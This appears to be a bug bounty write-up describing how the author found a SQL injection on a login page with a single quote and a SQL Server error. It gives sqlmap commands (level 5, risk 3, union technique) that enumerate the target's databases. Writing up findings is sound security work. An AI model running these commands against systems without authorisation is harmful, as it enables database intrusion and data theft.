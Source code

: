 **How I found it ?**

I had been diligently searching through the program for a considerable amount of time, identifying numerous bugs of varying severity levels — low, medium, and high. Despite my persistent efforts to locate a critical vulnerability, I was almost ready to abandon the endeavor. However, just as I was on the brink of giving up, I chanced upon a login page. Almost impulsively, I entered a single quote (‘) into one of the input fields, fully expecting that nothing would happen — no error or any noticeable change on the login page. To my surprise, though, the application threw an error, as indicated in the response captured by Burp Suite.

![](https://miro.medium.com/v2/resize:fit:700/1*FjTIPJB4Dzh0uSKISHlI7A.png)

BurpSuite Pro

> As you can see in the error SQLServer JDBC Driver. After searching it on google you can see dbms is possibly Microsoft SQL Server

Now let's dump the data, Copy the request and save it in Req-1.txt

Sqlmap command

sqlmap -r Req-1.txt --level=5 --risk=3 --force-ssl 

![](https://miro.medium.com/v2/resize:fit:700/1*57UCSqOi_FH9x_ZN6uvNgA.png)

sqlmap

Sqlmap has found 3 techniques to retrieve data we will use the union method

sqlmap -r Req-1.txt --level=5 --risk=3 --force-ssl -p ActingBodyOther --dbs --dbms="Microsoft Sql Server" --technique="U"

![](https://miro.medium.com/v2/resize:fit:700/1*H_fdDjpGscijSPiTVpbEcQ.png)

sqlmap Union query

![](https://miro.medium.com/v2/resize:fit:700/1*dDKM5P2sdaeY-MLLfiJ7VQ.png)

sqlmap fetching database names

**Final Note**

I genuinely appreciate your kind attention, and I extend my heartfelt gratitude. May your endeavors be blessed with abundant success in uncovering a multitude of bugs, each contributing to substantial rewards. Your dedication to this pursuit is truly commendable, and I wholeheartedly wish you the very best in your quest for identifying and addressing these vulnerabilities.


